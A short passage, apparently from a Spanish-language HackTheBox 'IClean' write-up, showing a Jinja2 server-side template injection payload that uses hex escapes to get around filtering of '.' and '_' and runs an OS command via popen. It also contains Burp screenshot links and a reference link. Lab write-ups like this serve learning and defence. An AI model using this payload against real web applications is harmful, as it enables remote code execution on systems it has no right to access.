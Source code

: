
![](/assets/images/htb-writeup-IClean/bburp.png)

Para lograr la ejecución remota de comandos utilice el sig. payload en el cual se realizan algunos bypass de caracteres como `.` y `_`

```python
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
```


![](/assets/images/htb-writeup-IClean/bburp.png)

Referencia: [HackMD](https://hackmd.io/@Chivato/HyWsJ31dI)

![](/assets/images/htb-writeup-IClean/burp3.png)
